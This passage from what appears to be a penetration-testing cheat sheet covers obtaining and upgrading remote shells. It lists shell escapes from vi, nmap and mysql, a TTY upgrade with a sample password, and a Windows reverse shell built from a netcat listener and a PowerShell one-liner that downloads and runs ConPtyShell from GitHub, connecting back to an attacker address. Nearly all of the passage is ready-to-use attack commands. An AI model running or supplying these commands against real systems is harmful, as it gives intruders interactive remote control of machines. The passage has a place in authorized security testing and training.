 - vi: `:!bash`
- vi: `:set shell=/bin/bash:shell`
- nmap: `!sh`
- mysql: `! bash`

Alternative TTY method

```
www-data@debian:/dev/shm$ su - user
su: must be run from a terminal

www-data@debian:/dev/shm$ /usr/bin/script -qc /bin/bash /dev/null
www-data@debian:/dev/shm$ su - user
Password: P4ssW0rD

user@debian:~$ 
```

## Fully interactive reverse shell on Windows
The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.

**ConPtyShell uses the function [CreatePseudoConsole()](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole). This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**


Server Side:

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Client Side:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

Offline version of the ps1 available at --> https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1

## References

* [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
* [Pentest Monkey - Cheat Sheet Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Spawning a TTY Shell](http://netsec.ws/?p=337)
* [Obtaining a fully interactive shell](https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell)
